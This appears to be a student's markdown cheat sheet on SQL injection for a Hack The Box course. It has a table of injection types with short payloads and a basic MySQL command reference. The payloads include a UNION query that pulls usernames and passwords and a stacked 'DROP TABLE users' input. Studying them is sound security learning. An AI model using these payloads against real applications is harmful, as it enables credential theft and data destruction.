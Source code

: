 # SQL Injection

## Types of SQL Injection

| Type | Description | Example | Useful/Where Can't Be Used |
|------|-------------|---------|----------------------------|
| Classic | Direct injection into input fields | `' OR '1'='1` | Useful for basic input fields; can't use if input is sanitized |
| Union-Based | Uses UNION operator to extract data | `' UNION SELECT NULL, username, password --` | Useful with multiple columns; can't use if UNION is blocked |
| Error-Based | Exploits database errors to reveal data | `' AND 1=(SELECT COUNT(*))` | Useful with error messages; can't use if errors are suppressed |
| Blind (Boolean)| Infers data via true/false responses | `' AND SUBSTRING(version(), 1, 1)=5` | Useful when errors are suppressed; can't use if responses are identical |
| Blind (Time-Based) | Delays response based on conditions | `' OR IF(1=1, SLEEP(5), 0)` | Useful with no output; can't use if timing controls are strict |
| Stacked Queries | Executes multiple statements | `'; DROP TABLE users; --` | Useful if multi-queries allowed; can't use if DBMS restricts it |

## Useful links

- [MySQL Documentation](https://dev.mysql.com/doc/)
- [Data types](https://dev.mysql.com/doc/refman/8.0/en/data-types.html)
- [MariaDB Documentation](https://mariadb.com/docs/server)

## MySQL

### General

| Command | Description |
|---------|-------------|
| `mysql -u root -h docker.hackthebox.eu -P 3306 -p` | Login to mysql database. No space after -p when entering password |
| `CREATE DATABASE users;`| Create a new datase called users |
| `SHOW DATABASES;` | List available databases |
| `USE users;` | Switch to database |

**Note:** SQL statements are not case sensitive but names are.

**Note:** 3306 is the default port for MySQL.

### Tables

| Command | Description |
|---------|-------------|
| `CREATE TABLE logins (id INT, ...);` | Add a new table |
| `SHOW TABLES;` | List available tables in current database |
| `DESCRIBE logins;` | Show table properties and columns |
| `INSERT INTO table_name VALUES (value_1,..);` | Add values to table, requires values for all columns in the table |
| `INSERT INTO table_name(username, password) VALUES ('john', 'john123!');` | Add values to specific columns in a table **Note:** skipping columns with the 'NOT NULL' constraint will result in an error (unless AUTO_INCREMENT) |
| `INSERT INTO logins(username, password) VALUES ('john', 'john123!'), ('tom', 'tom123!');` | Insert multiple records at once by separating them with a comma |
| `UPDATE logins SET password = 'change_password' WHERE id > 1;` | Update specific records |
